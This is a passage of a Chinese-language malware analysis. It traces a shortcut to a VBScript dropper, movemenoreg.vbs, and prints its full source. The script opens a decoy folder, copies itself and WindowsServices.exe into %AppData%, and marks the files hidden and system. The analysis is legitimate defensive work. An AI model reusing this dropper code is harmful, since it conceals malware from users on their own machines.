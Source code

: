 ![image-20240225112733288](image-20240225112733288.png)

也就是说目标为 `cmd.exe /C .\WindowsServices\movemenoreg.vbs`

实际上是运行了同级目录下`WindowsServices`文件夹内的`movemenoreg.vbs`文件，下面我们分析该脚本

### movemenoreg.vbs

#### 代码

代码内容如下

```vb
on error resume next
Dim  strPath, objws, objFile, strFolder, Target, destFolder, objDestFolder, AppData, ws, objmove, pfolder, objWinMgmt, colProcess, vaprocess
Set ws = WScript.CreateObject("WScript.Shell")

Target = "\WindowsServices"




'where are we?
strPath = WScript.ScriptFullName
set objws = CreateObject("Scripting.FileSystemObject")
Set objFile = objws.GetFile(strPath)
strFolder = objws.GetParentFolderName(objFile)
pfolder = objws.GetParentFolderName(strFolder)
ws.Run Chr(34) & pfolder & "\_" & Chr(34)


AppData = ws.ExpandEnvironmentStrings("%AppData%")



DestFolder = AppData & Target


if (not objws.folderexists(DestFolder)) then
	objws.CreateFolder DestFolder	
	Set objDestFolder = objws.GetFolder(DestFolder)
end if

Call moveandhide ("\helper.vbs")
Call moveandhide ("\installer.vbs")
Call moveandhide ("\movemenoreg.vbs")
Call moveandhide ("\WindowsServices.exe")
objDestFolder.Attributes = objDestFolder.Attributes + 39


sub moveandhide (name)
	if (not objws.fileexists(DestFolder & name)) then
		objws.CopyFile strFolder & name, DestFolder & "\"
		Set objmove = objws.GetFile(DestFolder & name)

		If not objmove.Attributes AND 39 then 
			objmove.Attributes = 0
			objmove.Attributes = objmove.Attributes + 39
		end if

	end if
end sub


```